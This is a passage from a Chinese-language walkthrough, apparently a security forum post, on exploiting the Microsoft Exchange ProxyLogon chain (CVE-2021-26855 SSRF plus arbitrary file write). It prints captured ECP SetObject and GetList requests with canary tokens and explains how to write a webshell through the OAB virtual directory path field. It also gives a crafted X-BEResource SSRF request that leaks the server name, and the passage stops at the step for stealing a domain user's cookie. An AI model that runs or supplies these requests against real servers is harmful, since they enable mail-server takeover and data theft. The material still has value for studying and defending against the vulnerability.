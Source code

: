 查看请求包。请求中有一个关键参数`msExchEcpCanary`，如果没有这个参数，服务端返回500错误。这个参数的值可以利用CVE-2021-26855 SSRF漏洞通过多次请求获取。

可以看到第一个请求包是设置文件保存路径的请求包，使用的也是`/ecp/DDI/DDIService.svc/SetObject`接口，并且`msExchEcpCanary`和`ActivityCorrelationID`参数也是一样的。仔细观察其实就是请求包里面的字段`ExternalUrl`变为了`FilePathName`

```php
/ecp/DDI/DDIService.svc/SetObject?ActivityCorrelationID=30a0575a-5ee8-8b03-181a-ea1cdc1fb7b4&schema=OABVirtualDirectory&msExchEcpCanary=AQB_nzZ3TkaV7UmDQbbI4GBeZYlBt9oIdPNrql9tKVyzP6vDQRsOmEkxlP1NDQK1d5dAhz17bCI.
```

![](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-69c57289af8bd3ab60a14e69adae1f4ac25ec5da.png)

第二个是点击重置的请求包，使用的是`/ecp/DDI/DDIService.svc/GetList`接口

```php
 /ecp/DDI/DDIService.svc/GetList?ActivityCorrelationID=085910a4-27c2-5616-c475-1164aa5d54d6&schema=VirtualDirectory&msExchEcpCanary=AQB_nzZ3TkaV7UmDQbbI4GBeZYlBt9oIdPNrql9tKVyzP6vDQRsOmEkxlP1NDQK1d5dAhz17bCI.
```

![](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-dd1264c6a3449d9f7d38f953a77456357f96405e.png)

然后可以看到，靶机上已经能够看到上传的木马文件。

![](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-07d24f8a75437ae48d7d6c08775d0e6002456b2a.png)

重置完成，访问木马文件

![](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-ed045be4df63db8f0abaaf2c95a3e9298aeab4d0.png)

漏洞利用
----

![](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-6af1975ee35870f77c1443ae5279a8758916fa6c.png)

所以我们的攻击思路就是首先需要通过ssrf获取到域用户的cookie，然后通过文件上传来写马。

### 获取server name

```php
GET /ecp/target.js HTTP/1.1
Host: localhost
Connection: close
Cookie: X-BEResource=localhost/owa/auth/logon.aspx?~1941962753
Content-Type: text/xml
Content-Length: 0

```

利用500回显查看到`X-Feserver: WIN-V2JNEUVOLJV`中`server name`即为`WIN-V2JNEUVOLJV`

![](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-4dee8c2d2527889dd688e98ad90880a59f44750c.png)

### 获取域用户cookie
